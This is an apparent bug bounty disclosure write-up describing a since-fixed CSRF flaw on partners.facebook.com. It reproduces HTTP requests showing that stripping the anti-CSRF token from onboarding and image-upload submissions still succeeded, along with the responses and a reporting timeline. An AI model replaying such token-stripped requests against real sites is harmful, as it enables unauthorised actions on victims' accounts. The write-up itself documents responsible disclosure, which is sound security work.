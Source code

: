 
>CSRF in partners.facebook.com

I was looking for something on internet.org, But there is an option for submitting your site to internet.org.That redirected me to this https://partners.facebook.com/cp/onboarding/ .

Jack Whitton wrote an article on site wide csrf in messenger.com. This one explained how facebook was not properly validating the csrf tokens at server side .

My sixth sense was saying that this site would be rarely visited so there would be some bugs. Intially I was trying for IDOR but it failed. Then I tried to remove the fb_dtsg the server response was 200.
Here is the tcp dump of [ Original Request, Edited request, Response].

````
POST /cp/onboarding/submit/ HTTP/1.1
Host: partners.facebook.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.10; rv:39.0) Gecko/20100101 Firefox/39.0
Content-Length: 726
Cookie: {COOKIE}
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache

fb_dtsg=[token]&site_name=prashanth&short_description=asdasdasdsadasdasd&long_description=asdasdasdasdadasd%20asdjnasjdnasjdnas%20dasjndjasndjansdas%20dasjndjasd&category=communication&submission_id=1664831777136420&partner_id&
country_configs[IN][locales][en_GB][http]=yilo.me%2F&country_configs[IN][locales][en_GB][https]=&country_configs[IN][default]=en_GB&country_configs[IN][status]=pending1&country_configs[IN][comment]&country_configs[IN][action]=add&country_configs[IN][config_fbid]=1664831780469753&
country_configs[IN][is_editable]=true&country_configs[IN][is_deletable]=true&__user=1529285343&__a=1
````

Edited request:
````
POST /cp/onboarding/submit/ HTTP/1.1
Host: partners.facebook.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.10; rv:39.0) Gecko/20100101 Firefox/39.0
Content-Length: 726
Cookie: {COOKIE}
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache

site_name=prashanth&short_description=asdasdasdsadasdasd&long_description=asdasdasdasdadasd%20asdjnasjdnasjdnas%20dasjndjasndjansdas%20dasjndjasd&category=communication&submission_id=1664831777136420&partner_id&
country_configs[IN][locales][en_GB][http]=yilo.me%2F&country_configs[IN][locales][en_GB][https]=&country_configs[IN][default]=en_GB&country_configs[IN][status]=pending1&country_configs[IN][comment]&country_configs[IN][action]=add&country_configs[IN][config_fbid]=1664831780469753&
country_configs[IN][is_editable]=true&country_configs[IN][is_deletable]=true&__user=1529285343&__a=1
````

Response:
````
HTTP/1.1 200 OK
X-Frame-Options: DENY
Pragma: no-cache
X-FB-Debug: Dmgrhewc6N5fT+i20ldq1OlYtN45IWMAcGGzafxtVMGqClAKvDjbysUAbMhoR1YfQjL0S5p5deoLKdlEqkBb1w==
Date: Mon, 24 Aug 2015 10:58:38 GMT
Connection: keep-alive
Content-Length: 193

for (;;);{"__ar":1,"payload":null,"jsmods":{"require":[["goURI"]]},"onload":["goURI(\"\\\/cp\\\/onboarding\\\/?submission_id=424609417741749\", true);"],"bootloadable":{},"ixData":{},"lid":"0"}
````

Csrf check is missing on every endpoint of partners.facebook.com. Even some can change the submitted site using the id of the post .This could impact the site owners and there reputation.
Another request which uploads banner photo of site
Request:
````
POST /cp/onboarding/images/submit/?__user=1529285343&__a=1
Host: partners.facebook.com
Content-Type: multipart/form-data; boundary=---------------------------3455666841143476500578378497


-----------------------------3455666841143476500578378497
Content-Disposition: form-data; name="banner"; filename="love.png"
Content-Type: image/png
-----------------------------3455666841143476500578378497--
````

Response:

````
HTTP/1.1 200 OK
X-Frame-Options: DENY
Pragma: no-cache
X-FB-Debug: Dmgrhewc6N5fT+i20ldq1OlYtN45IWMAcGGzafxtVMGqClAKvDjbysUAbMhoR1YfQjL0S5p5deoLKdlEqkBb1w==
Date: Mon, 24 Aug 2015 10:58:38 GMT
````


Timeline:
Bug reported:20 August ,2015
Bug acknowledged:21 August, 2015
Bug Poc sent: 24 August, 2015
Bug triaged:3 September,2015
Bug fixed:18 September, 2015 (Now response is 400 if csrf tokens are missing)
Bug bounty awarded :19 September, 2015 . Facebook awarded me 5000$
